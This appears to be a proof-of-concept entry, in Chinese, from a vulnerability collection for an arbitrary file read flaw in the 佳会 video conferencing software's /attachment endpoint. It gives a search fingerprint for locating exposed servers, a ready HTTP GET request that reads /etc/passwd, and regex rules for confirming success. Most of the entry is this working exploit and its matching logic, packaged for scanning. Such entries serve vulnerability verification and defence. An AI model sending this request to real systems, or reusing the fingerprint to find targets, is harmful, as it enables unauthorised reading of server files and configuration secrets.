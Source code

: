 ﻿# 佳会视频会议 attachment 任意文件读取

> 更新时间：2024-05-20

> 漏洞编号：

> 漏洞说明：    佳会视频会议是由杭州叁体网络科技有限公司开发的一款线上视频会议软件，叁体·佳会3.0是业内首家兼容HTML5/WebRTC技术的网络会议产品,无需下载任何客户端与插件，即可开启视频会议，无需下载插件即可分享屏幕,甚至只需要用微信/QQ扫描二维码，就能加入视频会议。

    佳会视频会议/attachment接口存在任意文件读取漏洞，攻击者可以利用漏洞读取服务器上的任意文件，包括配置文件等敏感信息。

> 漏洞特征：body="/user/get_app_scheme?site_id="

> 验证脚本：HTTP

```
GET /attachment?file=/etc/passwd HTTP/1.1
Connection: keep-alive
Accept: */*
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?root)(?=.*?bin).*?$

> 上传文件定位：

> 验证文件来源：佳会视频会议 attachment 任意文件读取.poc

